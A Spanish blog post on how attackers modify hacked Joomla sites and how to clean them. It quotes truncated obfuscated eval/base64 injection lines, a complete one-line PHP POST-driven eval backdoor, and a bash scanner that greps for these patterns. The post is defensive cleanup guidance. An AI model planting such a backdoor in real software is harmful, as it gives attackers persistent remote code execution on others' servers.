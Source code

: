 ```yaml
---
title: Como es atacado un sistema Joomla (2º Parte)
date: 2012-06-18
description: Descubre cómo los atacantes comprometen sitios Joomla, los métodos utilizados para modificar archivos críticos y cómo proteger tu sitio eliminando código malicioso y reforzando la seguridad.
author: Francisco Javier Félix Belmonte
image: '/images/blog/post/como-es-atacado-un-joomla-2-parte.webp'
category: 'blog'
tags: [joomla, ataques, cms]
isDraft: false
---
```


Si en la [1º parte](como-es-atacado-un-joomla) explicamos cuáles son los métodos de ataque de un **CMS** tipo Joomla o Wordpress, ahora comentaremos de qué forma es modificado el Joomla y cómo podemos limpiarlo.

Normalmente, los ficheros que se modifican primero son el `index.php`, pero en Joomla también son modificados:

```bash
/index.php
/includes/framework.php
/templates/xxxx/index.php
```

> Donde `xxxx` es el nombre de la plantilla que estamos usando.

Lo primero que tenemos que hacer es buscar en dichos ficheros, tanto al principio como al final, las siguientes sintaxis:

```php
eval(gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
eval(@gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
preg_replace("/.+/e","\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28......hPLidw/nyu/lEf6Xcg24Mhg8Bqov4C'\x29\x29\x29\x3B",".");
```

Estas líneas han sido cortadas por los puntos suspensivos, normalmente tienen más de 1200 caracteres, pudiendo llegar a 24.000, lo que nos hace sospechar de que algo raro pasa.
En una primera limpieza, borraríamos las líneas o sustituiríamos los ficheros modificados por los originales o la última copia no alterada.

Luego buscaríamos estos patrones en el resto de ficheros y también podemos buscar por fecha de modificación.

Hay que estar atento a los ficheros modificados, porque también pueden incluir una puerta trasera. Y aunque limpiemos los ficheros o activemos sistemas de seguridad como [**suhosin**](http://www.hardened-php.net/suhosin/index.html) o [**mod_security**](http://www.modsecurity.org/), hay que buscar este código y eliminarlo.
(*suhosin permite limitar el uso de `eval`, pero se necesitan conocimientos porque se podría dejar de funcionar ciertas partes de nuestra web.*)

```php
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
```

Este fragmento, con un simple `POST`, permite al atacante volver a infectarnos y es difícil de detectar en los registros del **Apache**.

Como ejemplo, he creado un pequeño script en **bash** para buscar ficheros infectados. Aunque pueden aparecer algunos falsos positivos, siempre es recomendable revisarlos manualmente:

```bash
#!/bin/bash

malware() {
    find -type f -iname *.$1 | while read file
    do
        a=$(awk 'length($0) > 1020' "$file" | grep -e "base64_decode\|preg_replace")
        if [ "$a" ]; then
            echo "$file"
        fi
        b=$(grep "\$_POST" "$file" | grep -i base64_decode | grep -i eval)
        if [ "$b" ]; then
            echo "$file"
        fi
    done
}

malware phtml
malware php
malware phps
malware php5
```

